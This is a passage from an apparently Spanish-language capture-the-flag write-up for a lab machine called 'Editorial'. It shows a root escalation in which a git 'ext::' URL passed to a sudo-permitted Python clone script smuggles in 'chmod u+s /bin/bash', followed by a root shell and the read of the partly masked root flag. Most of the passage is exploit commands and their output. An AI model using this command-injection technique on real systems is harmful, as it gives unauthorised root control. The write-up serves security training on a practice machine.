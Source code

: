 Pasandóselo a este script, nos deja efectivamente una bash SUID:

```bash
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::chmod u+s /bin/bash"
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::chmod u+s /bin/bash new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:~$ ls -la /usr/bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /usr/bin/bash
```

Por lo que ya podemos tomar la última flag.

```bash
prod@editorial:~$ ls -la /usr/bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /usr/bin/bash
prod@editorial:~$ bash -p
bash-5.1# cd /root
bash-5.1# ls -la
total 36
drwx------  5 root root 4096 Oct 15 20:23 .
drwxr-xr-x 18 root root 4096 Jun  5 14:54 ..
lrwxrwxrwx  1 root root    9 Feb  6  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwxr-xr-x  3 root root 4096 Jun  5 14:36 .cache
-rw-r--r--  1 root root   35 Feb  4  2023 .gitconfig
drwxr-xr-x  3 root root 4096 Jun  5 14:36 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Oct 15 20:23 root.txt
drwx------  2 root root 4096 Jun  5 14:36 .ssh
bash-5.1# cat root.txt
5ada2815a644dbb9cd398028b2******
```